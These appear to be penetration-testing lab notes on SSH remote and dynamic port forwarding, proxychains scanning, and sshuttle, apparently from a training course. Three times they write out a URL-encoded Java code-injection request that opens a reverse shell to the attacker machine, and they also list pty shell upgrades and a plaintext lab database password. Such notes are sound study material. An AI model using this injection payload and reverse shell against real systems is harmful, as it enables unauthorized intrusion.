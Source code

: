 
Remote port forwarding - bind listening port on kali instead of on a target machine (like reverse shell for port forwarding)
- you would do this if you are not able to open up listening port on the target due to firewall
- if it has an ssh client, we can set up an ssh server on kali 

on kali
```
sudo systemctl start ssh
sudo ss -ntplu
```

on client
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- listening socket first, forwarding socket second
- listen on 2345 on kali, and forward to second target
`ssh -N -R 127.0.0.1:2345:10.4.234.215:5432 kali@192.168.45.181`

```
# D@t4basePassw0rd!
psql -h 127.0.0.1 -p 2345 -U postgres
```

### VM 2
```
curl -v http://192.168.234.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.181/9999%200%3E%261%27%29.start%28%29%22%29%7D/
curl http://192.168.234.63:8090/exercises/ssh_remote_client -o ssh_remote_client
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
ssh -N -R 127.0.0.1:4444:10.4.234.215:4444 kali@192.168.45.181
```

### remote dynamic port forwarding
- use instaed of remote local port forwarding if you need more than one socket per connection (like for enumeration)
- to do this you need the SOCKS proxy
```
curl -v http://192.168.234.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.181/9999%200%3E%261%27%29.start%28%29%22%29%7D/
python3 -c 'import pty; pty.spawn("/bin/sh")'
sudo systemctl start ssh
sudo ss -ntplu
ssh -N -R 9998 kali@192.168.45.181
```

edit proxychains conf
`sudo vi /etc/proxychains4.conf #(socks5 127.0.0.1 9998)`

need to use internal interface
```
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.234.64
curl http://192.168.234.63:8090/exercises/ssh_remote_dynamic_client -o ssh_remote_dynamic_client
proxychains ./ssh_remote_dynamic_client -i 10.4.234.64 -p 9062
```
### using sshuttle
- basically turns ssh connection into something like a VPN, requires root priv on ssh client
```
curl -v http://192.168.195.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.181/9999%200%3E%261%27%29.start%28%29%22%29%7D/
```
